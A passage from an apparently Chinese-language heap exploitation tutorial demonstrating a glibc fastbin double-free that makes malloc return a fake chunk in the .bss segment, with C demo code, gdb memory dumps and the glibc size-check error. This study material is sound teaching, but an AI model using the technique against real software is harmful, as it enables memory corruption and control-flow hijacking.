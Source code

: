 ```c

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}
```

在我的系统上 chunk_b 输出的值会是 0x601090，这个值位于 bss 段中正是我们之前设置的`CHUNK bss_chunk`

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

0x601080 <bss_chunk>:   0x0000000000000000  0x0000000000000021
0x601090 <bss_chunk+16>:0x0000000000000000  0x0000000000000000
0x6010a0:               0x0000000000000000  0x0000000000000000
0x6010b0:               0x0000000000000000  0x0000000000000000
0x6010c0:               0x0000000000000000  0x0000000000000000
```

值得注意的是，我们在 main 函数的第一步就进行了`bss_chunk.size=0x21;`的操作，这是因为_int_malloc 会对欲分配位置的 size 域进行验证，如果其 size 与当前 fastbin 链表应有 size 不符就会抛出异常。

```
*** Error in `./tst': malloc(): memory corruption (fast): 0x0000000000601090 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f8f9deb27e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x82651)[0x7f8f9debd651]
/lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f8f9debf184]
./tst[0x400636]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f8f9de5b830]
./tst[0x4004e9]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
00bc4000-00be5000 rw-p 00000000 00:00 0                                  [heap]
7f8f98000000-7f8f98021000 rw-p 00000000 00:00 0
7f8f98021000-7f8f9c000000 ---p 00000000 00:00 0
7f8f9dc25000-7f8f9dc3b000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9dc3b000-7f8f9de3a000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9de3a000-7f8f9de3b000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9de3b000-7f8f9dffb000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7f8f9dffb000-7f8f9e1fb000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
```